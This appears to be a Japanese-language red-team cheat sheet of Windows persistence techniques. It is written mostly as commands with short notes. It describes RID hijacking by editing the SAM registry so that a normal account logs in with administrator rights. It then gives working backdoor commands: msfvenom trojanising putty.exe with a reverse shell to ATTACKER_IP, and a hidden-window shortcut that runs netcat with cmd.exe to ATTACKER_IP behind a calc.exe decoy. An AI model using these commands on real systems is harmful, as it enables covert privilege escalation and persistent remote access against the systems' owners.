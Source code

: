 ### リモート接続セキュリティ記述子の構成ウィンドウを開く

```ps
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

## RID

```ps
# 任意のユーザーのRIDを確認（最後の数値がRID）
# 管理者のデフォルトは500。一般ユーザーは1000以降。
wmic useraccount get name,sid
```

psexec（sysinternals）でレジストリを開く

```ps
PsExec64.exe -i -s regedit
```

```text
HKLM\SAM\SAM\Domains\Account\Users\

RID値のエントリ中に「F」という値があり、位置0x30にRIDが保持されている。
その部分を、500(0x01F4)に書き換える。（F4, 01 の順）
```

この状態でログインすると、管理者のデスクトップが表示される。

## バックドア

本来の機能を維持したままリバースシェルを仕込む

### 実行ファイル

任意の exe ファイルにペイロードを埋め込む

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### ショートカット

スクリプトを用意

```ps
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

ショートカットのターゲット設定。ウインドウが表示されないように。  
また、アイコンの見た目はプロパティ、ショートカットから変更可能。

```ps
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```
